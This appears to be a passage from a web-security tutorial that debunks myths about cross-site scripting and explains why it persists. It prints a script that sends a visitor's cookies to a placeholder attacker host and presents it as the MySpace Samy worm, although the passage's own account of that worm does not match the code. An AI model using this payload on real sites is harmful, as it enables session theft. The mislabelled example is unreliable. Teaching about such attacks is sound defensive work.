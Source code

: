   * The app runs the attacker’s script **automatically** when user loads the page.

#### ❌ “XSS is lame and low-impact.”

* Reality: XSS has been:

  * Used in **real attacks** on **banks**, **social media**, **cloud services**.
  * Turned into **worms** (e.g., the famous **Samy MySpace Worm**).
* When chained with other bugs (e.g., CSRF, IDOR), it can lead to **full app compromise.**

#### ❌ “You can’t own a web app with just XSS.”

* Wrong again. XSS is a **gateway** to:

  * Session theft
  * CSRF exploitation
  * Phishing the admin
  * Persistence via stored payloads
  * Worms that exploit other users automatically

---

### 💻 Real-World Example: MySpace Samy Worm

```html
<script>
document.body.innerHTML += '<img src="http://attack.site/?cookie=' + document.cookie + '" />';
</script>
```

What it did:

* Injected script into the profile.
* Anyone who viewed Samy’s profile:

  * Executed the script.
  * Became a victim and **automatically added Samy as a friend.**
  * Their profile got infected with the same code.

This made it **self-replicating** — just like a **worm.**

Within **24 hours**, Samy had **over 1 million friends.**

---

### 🔍 Why XSS Still Exists Today

Despite awareness, **XSS is still everywhere**:

* Developers forget to:

  * Sanitize output
  * Contextually encode input
* Frameworks don’t always enforce safe output rendering
* Legacy codebases
* Complex frontends (e.g., custom JS + dynamic content rendering)

---
